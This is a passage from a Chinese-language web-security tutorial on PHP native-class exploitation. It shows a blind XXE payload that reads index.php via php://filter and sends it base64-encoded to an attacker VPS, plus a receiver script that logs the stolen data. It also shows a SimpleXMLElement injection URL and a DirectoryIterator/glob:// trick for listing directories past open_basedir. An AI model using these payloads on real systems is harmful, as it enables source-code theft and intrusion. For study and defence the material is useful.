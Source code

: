```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://47.xxx.xxx.72/send.php?file=%file;'>">
```

send.php：

```
<?php 
file_put_contents("result.txt", $_GET['file']) ;
?>
```

然后在url中构造如下：

```
/show.php?module=SimpleXMLElement&args[]=http://47.xxx.xxx.72/evil.xml&args[]=2&args[]=true

```

这样目标主机就能先加载我们vps上的evil.xml，再加载send.xml。

如下图所示，成功将网站的源码以base64编码的形式读取并带出到result.txt中：

![image-20231213183252160](assets/image-20231213183252160.png)



### DirectoryIterator 

DirectoryIterator 类提供了一个用于查看文件系统目录内容的简单接口，该类是在 PHP 5 中增加的一个类。

DirectoryIterator与glob://协议结合将无视open_basedir对目录的限制，可以用来列举出指定目录下的文件。

测试代码：

```
// test.php
<?php
$dir = $_GET['whoami'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>

# payload一句话的形式:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```
